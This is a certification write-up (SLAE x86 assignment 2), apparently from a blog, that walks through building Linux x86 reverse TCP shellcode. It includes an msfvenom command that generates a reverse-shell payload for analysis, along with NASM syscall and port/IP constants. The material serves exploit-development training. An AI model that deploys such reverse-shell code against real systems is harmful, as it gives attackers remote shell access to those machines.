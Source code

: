 ```yaml
---
title: "SLAE x86 - Assignment 0x2"
date: 2021-10-20T06:38:37Z
draft: false
tags:
  - exploit_dev
  - assembly
categories:
  - certification
keywords:
  - slae
  - shellcode
  - assembly
---
```

# Reverse TCP Shellcode
## Objectives
- Create a shell reverse tcp shellcode
  - Reverse connects to configured IP and port
  - Execs shell on successful connection
- IP and port should be easily configurable

## Structure
Using reverse shell from msfvenom, the needed syscalls can be visualize with the help of [`libemu's sctest`](https://github.com/buffer/libemu) and [`dot tool`](https://graphviz.org/):

![](reverse_tcp_shellcode.png)

 Generated using:
 ```zsh {linenos=false}
 msfvenom --arch x86 --platform linux -p linux/x86/shell_reverse_tcp -f raw | sctest -vvv -Ss 10000 -G reverse_tcp_shellcode.dot
 dot reverse_tcp_shellcode.dot -T png -o reverse_tcp_shellcode.png
 ```
## Creating the NASM Code
### Syscalls and other values
- Below are the needed syscalls and respective opcodes from `/usr/include/asm/unistd_32.h`
```nasm {linenos=false}
  SOCKET      equ 0x167
  CONNECT     equ 0x16a
  DUP         equ 0x3f
  EXECVE      equ 0xb
```

- These are declared under `section .text` for better reading of the nasm code together with other constants:
```nasm {linenos=false}
  ; settings
  PORT        equ 0xd204        ; default 1234
  XOR_IP      equ 0xfeffff80    ; default (127.0.0.1 XORed with 0xffffffff)
                                ; this is to avoid null in shellcode

  ; argument constants
  AF_INET     equ 0x2
  SOCK_STREAM equ 0x1
```
